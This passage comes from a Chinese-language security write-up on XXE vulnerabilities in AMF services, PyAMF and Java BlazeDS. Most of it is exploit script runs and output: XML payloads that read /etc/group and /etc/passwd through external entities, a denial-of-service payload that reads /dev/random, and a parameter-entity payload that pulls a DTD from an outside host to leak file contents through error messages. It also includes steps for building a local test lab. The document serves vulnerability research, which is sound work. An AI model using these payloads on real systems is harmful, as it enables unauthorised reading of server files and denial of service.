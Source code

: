 可以看到，常规的实体可以被成功解析，再进一步试试外部实体。

```
$ ./amf_xxe.py http://192.168.22.201:8081/ echo ext_group
[+] Target URL: 'http://192.168.22.201:8081/'
[+] Target service: 'echo'
[+] Payload 'ext_group': '<!DOCTYPE x [ <!ENTITY foo SYSTEM "file:///etc/group"> ]><x>External entity 1: &foo;</x>'
[+] Sending the request...
[+] Response code: 200
[+] Body:
........foobar/onResult..null.......i<x>External entity 1: root:x:0:
daemon:x:1:
bin:x:2:
[...]
xbot:x:1000:
</x>
[+] Done

```

这说明PyAMF确实存在XXE漏洞，然而实际的生产环境中，我们却很难找到一个接口，会将解析后的XML数据呈现在返回数据中。当然，我们也知道存在不需要回显的XXE利用办法，但是经过作者的测试发现：（1）远程的URL被禁止使用；（2）没有其它一些好用的URL协议；（3）使用了通用的报错信息，使得我们并不能从报错信息里获得有用的信息。即便如此，用这个漏洞来进行拒绝服务还是可行的，例如通过访问`/dev/random`。

```
$ ./amf_xxe.py http://192.168.22.201:8081/ wtf ext_rand
[+] Target URL: 'http://192.168.22.201:8081/'
[+] Target service: 'wtf'
[+] Payload 'ext_rand': '<!DOCTYPE x [ <!ENTITY foo SYSTEM "file:///dev/random"> ]><x>External entity 2: &foo;</x>'
[+] Sending the request...
[!] Connection OK, but a timeout was reached...
[+] Done

```

0x03 漏洞利用之二 （跑在Java web服务上的BlazeDS）
===================================

* * *

lazeDS 在利用上比PyAMF要相对容易得多，这是因为：（1）我们可以使用一些java所支持的URL协议（比如http、ftp、jar）来对内部网络进行刺探；同时在利用上，我们也可以调用外部的DTD文件；（2）错误信息详细，会泄漏出相关的敏感信息；（3）java上的XXE允许通过file协议来进行列目录，这样十分有利于我们查找我们所感兴趣的文件。与PyAMF一样，我们利用的时候，并不需要知道这个AMF服务器到底注册了哪些可用的服务。

为了方便测试，我们可以在本地搭建测试环境，首先从[http://sourceforge.net/adobe/blazeds/wiki/download%20blazeds%204/](http://sourceforge.net/adobe/blazeds/wiki/download%20blazeds%204/)这里去下载2011年版本的BlazeDS，原作者下载的是turnkey格式，下载完成解压后，将解压文件放入Tomcat的bin目录中，然后执行`startup.sh`，然后你就可以通过[http://127.0.0.1:8400/samples/messagebroker/amf](http://127.0.0.1:8400/samples/messagebroker/amf)来对BlazeDS进行访问了。我自己所下载的是binary的格式，解压后就是一个war包，自己部署一下，就可以访问了。

部署完成后，就是通过利用脚本`amf_xxe.py`对服务进行测试，效果如下：

```
$ ./amf_xxe.py http://127.0.0.1:8400/samples/messagebroker/amf  foo prm_url
[+] Target URL: 'http://127.0.0.1:8400/samples/messagebroker/amf'
[+] Target service: 'foo'
[+] Payload 'prm_url': '<!DOCTYPE x [ <!ENTITY % foo SYSTEM "http://somewhere/blazeds.dtd"> %foo; ]><x>Parameter entity 3</x>'
[+] Sending the request...
[+] Response code: 200
[+] Body:
........foobar/onStatus.......
.Siflex.messaging.messages.ErrorMessage.headers.rootCause body.correlationId.faultDetail.faultString.clientId.timeToLive.destination.timestamp.extendedData.faultCode.messageId
........[Error deserializing XML type no protocol: _://root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```